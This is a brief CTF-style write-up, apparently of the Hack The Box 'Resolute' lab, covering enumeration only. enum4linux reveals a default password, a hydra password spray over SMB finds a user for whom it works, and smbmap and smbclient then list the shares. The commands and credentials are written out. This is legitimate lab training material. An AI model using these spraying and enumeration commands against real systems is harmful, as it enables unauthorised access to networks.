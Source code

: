 # Resolute
## Enumeration

enum4linux gave us some interesting things:
	- Some users
	- A password for marko : Welcome123!

I tried to connect as marko with the password and it was a fail 

So i decide to try with hydra to try every user with the password.
	```bash 
	hydra -L names.txt -P password.txt 10.10.10.169 smb
	```

[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!

so i can connect and enum as melanie with smbclient - smbmap
	
	```bash
	smbmap -u melanie -H 10.10.10.169 -p Welcome123!
	```
	```bash
	smbclient //10.10.10.169/SYSVOL -U melanie -p
	```
